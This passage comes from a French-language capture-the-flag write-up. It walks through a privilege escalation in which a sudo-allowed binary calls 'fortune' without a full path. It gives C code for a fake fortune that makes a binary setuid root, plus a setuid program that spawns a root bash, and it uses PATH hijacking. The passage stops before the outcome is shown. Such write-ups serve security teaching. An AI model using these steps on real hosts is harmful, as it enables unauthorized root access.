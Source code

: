 ```plain
User jetta may run the following commands on this host:
    (root) NOPASSWD: /home/jetta/auth_server/auth_server
```

Donc si on fait *sudo auth\_server* le programme sera lancé comme si on était root. Par curiosité on lance un *strings* dessus et on remarque dans la vingtaine de lignes :

```plain
could not establish connection
invalid certificates
error: (12)
fortune -s | /usr/bin/cowsay
Starting Auth server..
;*3$"
```

Monumentale erreur ! Appeler un programme sans spécifier son path exact !  

Comment le programme réagit-il quand on le lance normalement ?  

![Fonctionnement de auth_server](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity9.png)

Modifions quelque peu les choses. D'abord écrivons un programme *fortune.c* comme suit dont le rôle est de passer un binaire à nous baptisé *gotroot* en setuid root :

```c
#include <unistd.h>
#include <stdio.h>

int main(void)
{
  chown("/home/jetta/gotroot", 0, 0);
  chmod("/home/jetta/gotroot", 04777);
  printf("Done");
  return 0;
}
```

puis le programme *gotroot.c* qui nous donnera un shell avec les privilèges du super utilisation :

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

On compile les deux, on modifie le path (*export PATH=.:$PATH*, on le voit pas dans la capture) et on profite :  
